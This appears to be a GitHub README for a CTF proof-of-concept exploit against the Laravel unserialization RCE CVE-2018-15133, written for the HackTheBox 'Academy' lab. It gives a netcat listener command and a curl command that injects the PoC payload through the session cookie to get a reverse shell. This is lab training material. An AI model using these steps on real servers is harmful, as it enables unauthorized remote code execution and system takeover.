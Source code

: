 ## About:
* **Platform**&nbsp;&nbsp;&nbsp;: HacTheBox
* **Challenge**&nbsp;: Academy
* **Difficulty**&nbsp;&nbsp;: Easy
* **Link**&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: [https://app.hackthebox.com/machines/Academy](https://app.hackthebox.com/machines/Academy)

## Description:
This is a PHP POC for [Laravel unsafe unserialization](https://www.programmersought.com/article/29875427507/) RCE vulnerability identified as [CVE-2018-15133](https://nvd.nist.gov/vuln/detail/CVE-2018-15133)

## Reference:
[+] [https://www.truesec.com/hub/blog/from-s3-bucket-to-laravel-unserialize-rce](https://www.truesec.com/hub/blog/from-s3-bucket-to-laravel-unserialize-rce)

## Usage:
1. Start a netcat listener on a port number of your choice (e.g.; `9999`) 
```bash
$ nc -nlvp 9999
```
2. Run the following curl command:
```bash
curl -H "Cookie: laravel_session= $(php poc.php);" -v http://dev-staging-01.academy.htb
```
![2023-07-26 18_19_56-ParrotOS-HTB - VMware Workstation 17 Player (Non-commercial use only)](https://github.com/YounesTasra-R4z3rSw0rd/CTF-Scripts/assets/101610095/046a4e37-a707-419a-9e62-a98fb9aa15be)
